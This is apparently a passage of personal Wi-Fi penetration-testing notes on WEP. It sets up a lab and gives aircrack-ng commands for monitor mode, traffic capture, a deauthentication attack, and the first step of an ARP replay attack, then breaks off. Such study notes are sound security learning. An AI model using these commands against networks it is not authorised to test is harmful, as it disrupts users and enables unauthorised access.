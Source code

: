 [[Wi-Fi Pentest]]
# WEP
The main flaws of WEP encryption are:
- Weak authentication scheme
- Short IV and subsequent frequent reuse
- Vulnerable to replay attacks
- Weak frame integrity protection
- Low resistance to related key attacks enabling efficient statistical attacks.
## Lab Setup
- Access Point (SSID: LabNetwork)
- 1 victim STA (associated to LabNetwork)
- the attacker machine
- Set up AP to use WEP encryption
- Set the WEP key size to 40 bit and choose your key (10 hex chars)
- Associate a victim to the network.
- Setup attack machine:
	- `airmon-ng start <interface>`
- Sniff the network traffic with airodump-ng:
	- `airodump-ng -c <channel> -w wep_attack <interface>`
## Deauthentication Attack
Management frame is not encrypted with WEP in IEEE 802.11
Death attack:
- `aireplay-ng -0 10 -c <client_mac> -a <bssid> <intf>`
- Attack can be noticed because you force clients to deauthenticate.
## ARP Relay Attack
After sniffing an ARP request generated by a STA, you can re-inject that packet due to WEP's lack of message replay countermeasures.
It's a broadcast message, the AP will forward the request to the associated STAs and each of these requests will contain a new IV for you to collect.
### An overview
![[Снимок экрана 2023-09-24 в 17.55.07.png]]
fake authentication is an authentication for attacker machine with 4 frames exchange.
![[Снимок экрана 2023-09-24 в 17.55.50.png]]
![[Снимок экрана 2023-09-24 в 17.56.27.png]]![[Снимок экрана 2023-09-24 в 17.57.17.png]]
![[Снимок экрана 2023-09-24 в 17.57.35.png]]
![[Снимок экрана 2023-09-24 в 17.57.54.png]]![[Снимок экрана 2023-09-24 в 17.58.25.png]]
### Actual attack
#### Collecting frames with IVs
Step 1:
> associate to the AP with aireplay-ng:
> `aireplay-ng -1 15 -a <bssid> -e <ssid> <intf>`![[Снимок экрана 2023-09-24 в 17.59.39.png]]
> During a real attack, you can find that your adapter constantly receives deauth messages from the victim AP. You can try this variation for picky APs:
> `aireplay-ng -1 6000 -q 10 -o 1 -a <bssid> -e <ssid> <intf>`
> -q 10 - enable keep-alive packets to be sent every 10 seconds to maintain the auth status.
> -o 1 forces aireplay-ng to send one set of packets at a time.
